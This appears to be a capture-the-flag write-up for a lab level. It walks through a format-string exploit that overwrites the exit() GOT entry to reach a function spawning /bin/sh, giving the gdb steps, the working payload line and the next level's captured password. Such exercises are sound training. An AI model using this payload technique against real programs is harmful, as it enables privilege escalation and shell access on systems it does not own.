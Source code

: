 ### Download binary
``scp -P4242 level5@192.168.31.170:/home/user/level5/level5 ~/Desktop/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (see sources)
There's a piece of dead code, the o function.
This one opens a **system("/bin/sh")**, so, our goal is to execute it.
``fgets`` is size protected to prevent buffer overflow, buffer's size is 520, the limit is set to 512.
We have to attack the Global Offset Table, which is a table that store pointer to function of the program.

----

### Building the payload

We want to build this payload :
**exit ADRESS (GOT) + o ADRESS + PLACE OF OUR INPUT IN STACK + %n**

``gdb level5``

**Getting the o function adress :**
``(gdb) info functions``
>[...]
0x080484a4  o

**Getting GOT adress range :**
``(gdb) info files``
>[...]
0x08049818 - 0x08049840 is .got.plt

**Let's find the function we want to overwrite, exit() :**
``(gdb) x/16wx 0x08049818``
>0x8049818 <_GLOBAL_OFFSET_TABLE_>:	0x0804974c	0x00000000	0x00000000	0x08048386
[...]
0x8049838 <exit@got.plt>:	0x080483d6	0x080483e6	0x00000000	0x00000000
[...]

**As usual we make a payload to see where we can put our adress.**
``python -c "print 'AAAA' + ' %x '*4" | ./level5``
>AAAA 200  b7fd1ac0  b7ff37d0  41414141

So, our final payload is :
python -c "print '\x38\x98\x04\x08' + '%134513824u' + '%4\$n'" > /tmp/payload

Why 134513824 ? Because o function adress is 0x080484a4, 0x080484a4 in decimal = 134513828.
We substract 4, for the first 4th bytes of the adress we wrote -> 134513828 - 4 = 134513824 !

----

#### Getting the flag

``cat /tmp/payload5 - | ./level5``

>[lot of spaces]
512

``whoami``
>level6

``cat /home/user/level6/.pass``
>d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
